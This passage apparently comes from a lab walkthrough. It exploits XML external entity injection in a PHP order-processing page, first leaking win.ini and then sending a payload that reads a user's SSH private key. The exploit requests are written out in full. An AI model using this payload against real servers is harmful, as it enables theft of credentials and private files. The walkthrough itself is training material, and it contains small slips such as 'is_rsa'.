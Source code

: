- We obtain the following response

```
HTTP/1.1 200 OK
Date: Thu, 25 Apr 2024 14:01:40 GMT
Server: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.2.28
X-Powered-By: PHP/7.2.28
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 144
Connection: close
Content-Type: text/html; charset=UTF-8

Your order for ; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
[Ports]
COM1:=9600,n,8,1
 has been processed
```

- We know that there is a user named Daniel and the SSH service is up and running
- When first SSH is activated, the default folder for keys is under `/home/<user>/.ssh/`
- Moreover, the default filename for private key is `is_rsa`
- Let's make the request and read the content of the file

```xml
POST /process.php HTTP/1.1
Host: 10.129.95.192
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: text/xml
Content-Length: 111
Origin: http://10.129.95.192
Connection: close
Referer: http://10.129.95.192/services.php
Cookie: PHPSESSID=647e1afpfuteemjqr5bh63ljve


<?xml version = "1.0"?>
<!DOCTYPE foo [<!ENTITY test SYSTEM 'file:///c:/users/daniel/.ssh/id_rsa'>]>
<order>
    <quantity>2</quantity>
    <item>Home Appliances</item>
    <address>ciao</address>
</order>
```

